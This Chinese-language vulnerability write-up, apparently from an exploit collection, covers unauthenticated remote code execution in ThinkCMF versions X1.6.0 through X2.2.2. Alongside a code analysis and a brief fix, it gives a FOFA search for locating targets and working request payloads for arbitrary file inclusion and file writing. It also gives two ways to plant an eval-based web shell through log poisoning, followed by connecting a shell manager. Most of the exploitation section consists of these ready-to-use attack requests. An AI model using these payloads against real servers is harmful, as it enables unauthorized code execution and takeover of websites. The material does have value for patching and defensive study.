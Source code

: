 # ThinkCMF 任意内容包含getshell漏洞

## 漏洞描述

ThinkCMF是一款基于PHP+MYSQL开发的中文内容管理框架，底层采用ThinkPHP3.2.3构建。ThinkCMF提出灵活的应用机制，框架自身提供基础的管理功能，而开发者可以根据自身的需求以应用的形式进行扩展

每个应用都能独立的完成自己的任务，也可通过系统调用其他应用进行协同工作。在这种运行机制下，开发商场应用的用户无需关心开发SNS应用时是如何工作的，但他们之间又可通过系统本身进行协调，大大的降低了开发成本和沟通成本

**漏洞介绍**

远程攻击者在无需任何权限情况下，通过构造特定的请求包即可在远程服务器上执行任意代码

## 漏洞影响

> ThinkCMF X1.6.0ThinkCMF X2.1.0ThinkCMF X2.2.0ThinkCMF X2.2.1ThinkCMF X2.2.2

## FOFA

> title="ThinkCMF"

## 漏洞分析



**环境搭建**

ThinkCMFX2.2.2下载链接：https://pan.baidu.com/s/1rK1-_BLmH1VPXsIUfr1VUw 提取码：wuhw

将下载好的ThinkCMF解压后放在WWW目录下，然后浏览器访问即可看到安装页面

![1](resource/ThinkCMF/1.png)

![2](resource/ThinkCMF/2.png)

安装好之后访问页面为

![图片](resource/ThinkCMF/3.png)

**漏洞分析**

首先打开index.php文件，查看程序的项目路径，可以看到项目路径在application目录下

![图片](resource/ThinkCMF/4.png)

在项目路径下找到入口分组的控制器类选择IndexController 控制器类打开，可以知道继承了HomebaseController，通过gma参数指定分组模块方法，这里可以通过a参数直接调用PortalIndexController父类(HomebaseController)中的一些权限为public的方法



![图片](resource/ThinkCMF/5.png)

![图片](resource/ThinkCMF/6.png)

可以看的的public方法里就有display()、fetch(),还有方法作用及参数含义

display函数 (**可以自定义加载模版，通过$this->parseTemplate 函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配**) 的作用是加载模板和页面输出，所对应的参数为：templateFile为模板文件地址，charset模板字符集，contentType输出类型，content输出内容

![图片](resource/ThinkCMF/7.png)

templateFile参数会经过parseTemplate()方法处理
在applicationCommonControllerAdminbaseController.class.php的parseTemplate()方法如下



![图片](resource/ThinkCMF/8.png)

parseTemplate()方法作用：判断模板主题是否存在，当模板主题不存在时会在当前目录下开始查找，形成文件包含

构造的payload为 ：index.php?a=display&templateFile=README.md

![图片](resource/ThinkCMF/9.png)

这里fetch函数的三个参数分别对应模板文件，输出内容，模板缓存前缀。利用时templateFile和prefix参数可以为空，在content参数传入待注入的php代码即可



**漏洞复现**

1.通过构造a参数的display()方法，实现任意内容包含漏洞

- 

```
?a=display&templateFile=README.md
```

![图片](resource/ThinkCMF/10.png)

2.通过构造a参数的fetch()方法，在不需要知道文件路径的情况下就可以实现任意文件写入



- 

```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('1.php','<?php phpinfo(); ?>')</php>
```

执行paylaod，如果页面是空白的，则说明可能写入成功



![图片](resource/ThinkCMF/11.png)

3.访问写入的文件1.php，发现成功写入文件

![图片](resource/ThinkCMF/12.png)

**ThinkCMF缓存getshell**

```
由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php
```

``

![图片](resource/ThinkCMF/13.png)

***\*有两种方式可以getshell\****

***\*第一种方法\****



- 

```
?a=display&templateFile=<?php file_put_contents('shell.php','<?php+eval($_POST["6666"]);?>');die();?>
```

![图片](resource/ThinkCMF/14.png)

发送请求，thinkphp生成的日志的格式为 年-月份-日期 (请求的日期)

- 

```
http://target.domain/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
```



![图片](resource/ThinkCMF/15.png)

可以看到已经成功创建了shell.php文件

![图片](resource/ThinkCMF/16.png)

然后使用蚁剑成功连接



![图片](resource/ThinkCMF/17.png)

**第二种方法**

发送以下请求

- 

```
http://target.domain/?a=display&templateFile=<?php eval($_POST["6666"]);?>
```

![图片](resource/ThinkCMF/18.png)

然后直接使用一句话管理工具连接

- 

```
http://target.domain/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
```

![图片](resource/ThinkCMF/19.png)

**修复方法**

将 HomebaseController.class.php 和 AdminbaseController.class.php 类中 display 和 fetch 函数的修饰符改为 protected